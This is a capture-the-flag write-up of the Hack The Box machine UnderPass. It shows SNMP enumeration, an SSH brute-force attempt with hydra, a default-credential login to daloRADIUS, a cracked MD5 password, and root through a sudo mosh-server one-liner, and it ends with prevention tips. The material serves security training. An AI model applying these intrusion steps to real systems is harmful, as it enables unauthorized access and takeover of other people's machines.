






UnderPass
Introduction
UnderPass is an Easy-rated Linux machine on Hack The Box that presents a web application exploitation. The challenge highlights misconfigurations in RADIUS management tools and leverages SNMP for valuable enumeration.
Enumeration
Initial Port Scan
I started by conducting a port scan using Nmap to identify open ports and services running on the target:
b4go@parrot-~/HTB/UnderPass $ nmap -sCV -p- --open -oA underpass 10.10.11.48 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-05 18:30 CEST
Nmap scan report for 10.10.11.48
Host is up (0.051s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_ 256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open http Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.60 secondsService Enumeration
The ports we see open are 22 and 80 so let's start checking 80 first:
I first check the source code(ctrl + u) and see nothing.
I will fuzz it and see what I find.
b4go@parrot-~/HTB/UnderPass $ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.10.11.48/FUZZ
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://10.10.11.48/FUZZ
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
# [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 48ms]
# [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 48ms]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 1143ms]
# on at least 3 different hosts [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 2150ms]
# Copyright 2007 James Fisher [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 3160ms]
[Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 3163ms]
# This work is licensed under the Creative Commons [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 3173ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 4175ms]
# directory-list-2.3-small.txt [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 4179ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 4181ms]
# [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 4187ms]
# [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 4190ms]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 4194ms]
# Priority-ordered case-sensitive list, where entries were found [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 4194ms]
[Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 48ms]
:: Progress: [87664/87664] :: Job [1/1] :: 662 req/sec :: Duration: [0:01:57] :: Errors: 0 ::
Nothing to see here, I will give a try to UDP port scanning.
I am going to enumerate UDP ports to see what's exposed.
b4go@parrot-~/HTB/UnderPass $ sudo nmap -sU --top-ports 100 10.10.11.48
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-05 19:03 CEST
Nmap scan report for 10.10.11.48
Host is up (0.055s latency).
Not shown: 97 closed udp ports (port-unreach)
PORT STATE SERVICE
161/udp open snmp
1812/udp open|filtered radius
1813/udp open|filtered radacct
Nmap done: 1 IP address (1 host up) scanned in 105.58 seconds
Fine, there is 161, let's keep going from here, I will use snmpwalk
b4go@parrot-~/HTB/UnderPass $ snmpwalk -v2c -c public 10.10.11.48
iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (258109) 0:43:01.09
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.15.2.1.1
iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.6.3.1
iso.3.6.1.2.1.1.9.1.2.5 = OID: iso.3.6.1.6.3.16.2.2.1
iso.3.6.1.2.1.1.9.1.2.6 = OID: iso.3.6.1.2.1.49
iso.3.6.1.2.1.1.9.1.2.7 = OID: iso.3.6.1.2.1.50
iso.3.6.1.2.1.1.9.1.2.8 = OID: iso.3.6.1.2.1.4
iso.3.6.1.2.1.1.9.1.2.9 = OID: iso.3.6.1.6.3.13.3.1.3
iso.3.6.1.2.1.1.9.1.2.10 = OID: iso.3.6.1.2.1.92
iso.3.6.1.2.1.1.9.1.3.1 = STRING: "The SNMP Management Architecture MIB."
iso.3.6.1.2.1.1.9.1.3.2 = STRING: "The MIB for Message Processing and Dispatching."
iso.3.6.1.2.1.1.9.1.3.3 = STRING: "The management information definitions for the SNMP User-based Security Model."
iso.3.6.1.2.1.1.9.1.3.4 = STRING: "The MIB module for SNMPv2 entities"
iso.3.6.1.2.1.1.9.1.3.5 = STRING: "View-based Access Control Model for SNMP."
iso.3.6.1.2.1.1.9.1.3.6 = STRING: "The MIB module for managing TCP implementations"
iso.3.6.1.2.1.1.9.1.3.7 = STRING: "The MIB module for managing UDP implementations"
iso.3.6.1.2.1.1.9.1.3.8 = STRING: "The MIB module for managing IP and ICMP implementations"
iso.3.6.1.2.1.1.9.1.3.9 = STRING: "The MIB modules for managing SNMP Notification, plus filtering."
iso.3.6.1.2.1.1.9.1.3.10 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.1.9.1.4.1 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.2 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.3 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.4 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.5 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.6 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.7 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.8 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.9 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.10 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.25.1.1.0 = Timeticks: (259300) 0:43:13.00
iso.3.6.1.2.1.25.1.2.0 = Hex-STRING: 07 E9 05 05 11 09 0C 00 2B 00 00
iso.3.6.1.2.1.25.1.3.0 = INTEGER: 393216
iso.3.6.1.2.1.25.1.4.0 = STRING: "BOOT_IMAGE=/vmlinuz-5.15.0-126-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro net.ifnames=0 biosdevname=0"
iso.3.6.1.2.1.25.1.5.0 = Gauge32: 0
iso.3.6.1.2.1.25.1.6.0 = Gauge32: 218
iso.3.6.1.2.1.25.1.7.0 = INTEGER: 0
iso.3.6.1.2.1.25.1.7.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
We have user steve, I will try some password bruteforce and see if we can get access via SSH
b4go@parrot-~/HTB/UnderPass $ sudo hydra -l steve -P /usr/share/wordlists/fasttrack.txt -e nsr ssh://10.10.11.48
[sudo] password for b4go:
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-05 19:28:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 225 login tries (l:1/p:225), ~15 tries per task
[DATA] attacking ssh://10.10.11.48:22/
[STATUS] 141.00 tries/min, 141 tries in 00:01h, 85 to do in 00:01h, 15 active
[STATUS] 113.00 tries/min, 226 tries in 00:02h, 1 to do in 00:01h, 2 active
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-05 19:31:15
No success, although I've noticed daloRADIUS server running...
Exploitation
I notice we got some info from here: iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloRADIUS server in the basin!" it is talking about a daloRADIUS server, I am not very familiar with this, let's search
from the web page : "daloRADIUS is an advanced RADIUS web platform aimed at managing Hotspots and general-purpose ISP deployments", I will check if there are any exploits available.
b4go@parrot-~/HTB/UnderPass $ searchsploit daloradius
------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
DaloRadius - Multiple Vulnerabilities | php/webapps/24849.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
there are CSRF, SQLi and XSS vulnerabilities that we can not exploit right now, I will just fuzz again against the daloRADIUS directory recursively:
I got the version
in /daloradius/app/users there is a login page:
I checked if there are any default credentials for this software and it is administrator:radius
The version is 2.2 for radius management and immediately go check if there is any vuln found this article daloRADIUS web management RCE
I tried the exploit but was not able to get RCE through it, So I keep enumerating the page
User svcMosh that has a md5-password in Management tab, lets decrypt it
we get underwaterfriends
User shell
b4go@parrot-~/HTB/UnderPass $ ssh svcMosh@underpass.htb
svcMosh@underpass.htb's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/pro
System information as of Mon May 5 06:38:00 PM UTC 2025
System load: 0.08 Processes: 226
Usage of /: 51.8% of 6.56GB Users logged in: 0
Memory usage: 14% IPv4 address for eth0: 10.10.11.48
Swap usage: 0%
Expanded Security Maintenance for Applications is not enabled.
0 updates can be applied immediately.
Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Last login: Sat Jan 11 13:29:47 2025 from 10.10.14.62
Privilege Escalation
svcMosh@underpass:/home$ sudo -l
Matching Defaults entries for svcMosh on localhost:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User svcMosh may run the following commands on localhost:
(ALL) NOPASSWD: /usr/bin/mosh-server
we can run /usr/bin/mosh-server without password so with the following command we will get a shell as root.
svcMosh@underpass:/home$ mosh --server="sudo /usr/bin/mosh-server" localhost
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/pro
System information as of Mon May 5 06:40:15 PM UTC 2025
System load: 0.03 Processes: 236
Usage of /: 51.8% of 6.56GB Users logged in: 1
Memory usage: 15% IPv4 address for eth0: 10.10.11.48
Swap usage: 0%
Expanded Security Maintenance for Applications is not enabled.
0 updates can be applied immediately.
Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
Conclusion
UnderPass shows how a chain of “small” oversights public SNMP strings, a forgotten daloRADIUS panel with default creds, weak password storage, and a sudo rule can snowball into full root compromise.
Prevention Tips:
- Replace the default
publicSNMP community string and restrict SNMP to a management network or VPN. - Patch or retire end-of-life web admin panels like daloRADIUS; if they must stay, hide them behind a VPN/reverse proxy and disable default accounts immediately.
- Store credentials with modern salted hashes (bcrypt/Argon2) and enforce strong, unique passwords—no more unsalted MD5.
- Review
/etc/sudoersfor NOPASSWD entries; never grant them to interactive network daemons (e.g.,mosh-server) unless strictly required.